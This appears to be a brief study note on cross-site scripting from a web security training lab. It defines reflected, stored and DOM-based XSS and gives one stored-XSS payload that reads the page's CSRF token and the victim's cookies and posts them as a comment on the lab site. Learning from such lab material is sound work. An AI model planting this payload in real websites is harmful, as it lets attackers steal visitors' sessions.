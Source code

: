 # Cross-Site scripting 


## Reflected XSS
The malicious script comes from the current HTTP request.

## Stored XSS
The malicious script comes from the website's database.

'''html
</p><script>

window.onload = function exampleFunction() {
  fetch('https://aca71f681f59794b806d32780018002c.web-security-academy.net/post/comment',
  {method:'POST',
  mode:'cors',
  cache:'no-cache',
  credentials:'same-origin',
  headers:{},
  redirect:'follow',
  referrerPolicy:'no-referrer',
  body:'csrf='+document.getElementsByName('csrf')[0].value+'&postId=2&comment='+document.cookie+'&name=test&email=http://test%40gmail.com&website=http://www.google.es'

});}</script><p>ScriptHere

'''


## DOM-based XSS
The vulnerability exists in client-side code rather than server-side code.


